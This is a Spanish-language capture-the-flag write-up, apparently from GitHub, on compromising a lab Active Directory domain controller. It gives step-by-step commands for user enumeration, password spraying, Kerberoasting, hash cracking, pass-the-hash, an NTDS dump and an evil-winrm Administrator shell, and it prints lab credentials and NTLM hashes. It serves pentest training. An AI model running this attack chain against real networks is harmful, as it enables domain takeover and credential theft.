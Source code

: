 # DC-01
![image](https://github.com/user-attachments/assets/9005e5aa-7dd4-46e7-9d63-83443c00029b)

## Reconocimiento
Lo primero que tenemos que hacer es identificar nuestro objetivo, ver la IP del DC.
En mi caso, lo hago con la herramienta netdiscover
```
ip a
```
![image](https://github.com/user-attachments/assets/39e54115-3ae2-40fd-8d13-f576429bd22b)

```
sudo netdiscover -i eth0 -r 14.14.1.0/24
```
Una vez identificamos el host, con IP 14.14.1.28, vamos  a realizar un escaneo de puertos con la herramienta NMAP, en concreto voy a utilizar mi herramienta automatizada para escaneos de NMAP [autonmap](https://github.com/BanYio/AutoNMAP).

![image](https://github.com/user-attachments/assets/a4b4b727-8b1a-4c88-93df-817e7939adf0)

Como era de esperar, al ser un DC hay muchos puertos abiertos, de momento nos vamos a centrar en kerberos (88), rpc (135), smb (445), ldap (389) y por último, vemos que tiene habilitado el puerto 5985, winrm.

![image](https://github.com/user-attachments/assets/8707c1c7-09a5-4e3f-a220-5df923d4e4c4)

Lo primero que he hecho ha sido identificar el dominio y añadirlo en el fichero /etc/hosts
```
crackmapexec smb 14.14.1.28
```
![image](https://github.com/user-attachments/assets/34b3b5a8-1b30-43d3-b9a1-682adbfcfe49)

Tras intentar enumerar usuarios mediante LDAP, rpcclient o smb con null sessions o incluso con la herramienta kerbrute para ver usuarios válidos del dominio, no ha habido suerte, por lo que he listado las carpetas compartidas y en un primer momento no he visto nada interesante, por ello es muy importante realizar las enumeraciones con distintas herramientas.

```
smbclient -L //14.14.1.28/ -N
crackmapexec smb 14.14.1.28 -u '' -p '' –shares
crackmapexec smb 14.14.1.28 -u 'banyio' -p '' –shares
```
![image](https://github.com/user-attachments/assets/168342b4-5d0c-460a-8224-6f925b46ee22)

Como podemos ver, hay muchas carpetas compartidas, pero solo tenemos permisos de lectura para IPC.
Vamos a realizar alguna búsqueda a ver que podemos enumerar con este recurso compartido, y en [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb) encontramos que hay una herramienta de impacket, lookupsid con la cual podemos enumerar los usuarios del domino.
```
impacket-lookupsid banyio@14.14.1.28
```
![image](https://github.com/user-attachments/assets/8d84a455-96ff-47ac-abec-8bfe20a27440)
 
Como podemos observar, nos aparecen todos los usuarios, pero con un formato incómodo para poder realizar otras tareas de enumeración mas adelante, por lo que vamos a sanitizar este output.
```
impacket-lookupsid banyio@14.14.1.28 | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```
![image](https://github.com/user-attachments/assets/6045630e-9fe9-4c4a-8ea6-f7fc94345517)

## EXPLOTACION
Ahora tenemos una lista de usuarios del dominio, por lo que podemos intentar a ver si alguno de estos usuarios es vulnerable a un ataque As-Rep Roasting, o realizar un password spraying al smb con credenciales por defecto.
```
crackmapexec smb 14.14.1.28 -u users.txt -p users.txt –no-brute
```
![image](https://github.com/user-attachments/assets/e4c13793-a146-4452-a752-0396f251d852)

Tenemos unas credenciales validas. 

**ybob317:ybob317**

Vamos a comprobar carpetas compartidas con estas credenciales y ver si tenemos acceso mediante winrm.
```
crackmapexec smb 14.14.1.28 -u ybob317 -p ybob317 –shares
crackmapexec winrm 14.14.1.28 -u ybob317 -p ybob317
```
![image](https://github.com/user-attachments/assets/212cf5f7-e6fb-414f-a560-241ba014732b)

No vemos nada interesante, por lo que vamos a ayudarnos de herramientas como bloodhound o ldapdomaindump para realizar escalada de privilegios o movimientos laterales.
```
bloodhound-python -d soupedecode.local -v --zip -c All -ns 14.14.1.28 -u ybob317 -p 'ybob317'
```
![image](https://github.com/user-attachments/assets/8d6a4256-0b3c-4c85-8316-f1b509fb583d)

Vemos que nos aparece un error DNS, vamos a intentar solucionarlo. Para ello vamos a fakear un DNS server con la herramienta dnschef.
```
git clone https://github.com/iphelix/dnschef.git
cd dnschef
sudo python3 dnschef.py --fakeip 14.14.1.28
bloodhound-python -d soupedecode.local -v --zip -c All -ns 127.0.0.1 -u ybob317 -p 'ybob317' -dc dc01
```
![image](https://github.com/user-attachments/assets/686c27a1-45da-4ebc-9ebd-993d6d435cc3)

Ya tenemos el reporte de bloodhound.
 
Abrimos bloodhound, iniciamos la consola de neo4j y subimos el .zip al bloodhound.
![image](https://github.com/user-attachments/assets/6dc554a2-36be-4d75-9391-9061fd27e46f)

## ESCALADA DE PRIVILEGIOS
Una vez tenemos todos los datos subidos al bloodhound, podemos empezar a buscar posibles vectores para escalar privilegios, si listamos los usuarios kerberoastables, vemos lo siguiente;
![image](https://github.com/user-attachments/assets/1ea56f76-35aa-4985-9166-d43cd6e4e23b)

Todos esos usuarios son vulnerables a un ataque kerberoast, por lo que vamos a realizarlo con la herramienta de Impacket-GetUsersSPNs.
```
impacket-GetUserSPNs -dc-ip 14.14.1.28 soupedecode.local/ybob317:ybob317
```
![image](https://github.com/user-attachments/assets/2b46ffd4-168d-47b3-b9b6-9fdbf95534e6)

Aquí vemos los usuarios vulnerables, y para capturar el hash NLTMv2, le tenemos que pasar el parámetro -outputfile.
```
impacket-GetUserSPNs -dc-ip 14.14.1.28 soupedecode.local/ybob317:ybob317 -outputfile kerb.hash
```
![image](https://github.com/user-attachments/assets/5752899f-0098-4025-b93a-9614b8dfa72a)

Aquí vemos un error que se soluciona cambiando el ntp.
```
sudo ntpdate 14.14.1.28
```
Volvemos a ejecutar de nuevo el comando y vemos que se han capturado todos los hashes.

Vamos a crackearlos con JohnTheRipper.
```
john --wordlist=/usr/share/wordlists/rockyou.txt kerb.hash
```
![image](https://github.com/user-attachments/assets/4695b320-8bd0-45c9-936a-5b6c0b99e4fb)

Como podemos observar, solo nos saca 1 contraseña, y no vemos a que cuenta pertenece.
Para identificar a quien pertenece esa contraseña, utilizaremos crackmapexec.
```
crackmapexec smb 14.14.1.28 -u users.txt -p 'Password123!!'
```
![image](https://github.com/user-attachments/assets/cf934ad9-4ea3-44d1-b065-ff06d6460d73)

Tenemos nuevas credenciales;

**file_svc:Password123!!**

Con estas nuevas credenciales, vamos a volver a listar las carpetas compartidas, a ver si hay alguna novedad.
```
crackmapexec smb 14.14.1.28 -u file_svc -p 'Password123!!' –shares
```
![image](https://github.com/user-attachments/assets/2d608f9b-533c-4c71-bc36-cf7557d7dda9)
 
Como podemos ver, este usuario tiene permisos de lectura sobre la carpeta backup, vamos a ver que hay dentro.
```
smbclient //14.14.1.28/backup -U file_svc
```
![image](https://github.com/user-attachments/assets/5f3147ec-8d37-41e6-8650-7f4f5c8ed8e3)

Nos encontramos con un fichero; backup_extract.txt que parece tener muchos usuarios y hashes NTLMv1, con los que podemos realizar la técnica de pass the hash, vamos  a comprobar si hay alguna credencial válida.
```
cat backup_extract.txt | awk -F ':' '{print $1 > "svc_users.txt"; print $4 > "hashes.txt"}'
```
![image](https://github.com/user-attachments/assets/0e852a22-d090-4aa1-8656-b4de9ee6610e)

```
crackmapexec smb 14.14.1.28 -u svc_users.txt -H hashes.txt --continue-on-success --no-brute
```
![image](https://github.com/user-attachments/assets/01ca8ce5-c396-4bd7-99d0-6747c2fa3a0e)

Como podemos ver, gracias al **Pwned!**, hemos comprometido la maquina, ya que significa que tenemos privilegios!

Vamos a dumpear el NTDS para sacar las credenciales de Administrator.
```
crackmapexec smb 14.14.1.28 -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 –ntds
```
![image](https://github.com/user-attachments/assets/d09bec01-c58d-4873-bd19-80ac8e0620d4)
 
Tenemos las credenciales de Administrator!
``` 
evil-winrm -i 14.14.1.28 -u 'Administrator' -H '88d40c3a9a98889f5cbb778b0db54a2f'
```
![image](https://github.com/user-attachments/assets/7ec7fcfe-25d4-4eed-b037-bfe94ad62de6)

Ahora ya podemos leer las flags de esta maquina.
![image](https://github.com/user-attachments/assets/2bfeda6e-04ca-41b3-b9a7-1c2afbb82258)


## Pwned!
Ya hemos completado este CTF, hemos comprometido el AD, en el que hemos visto fuerza bruta de los SID de Windows para identificar usuarios/grupos en el objetivo remoto, password spraying, crackeado hashes y Pass the Hash.

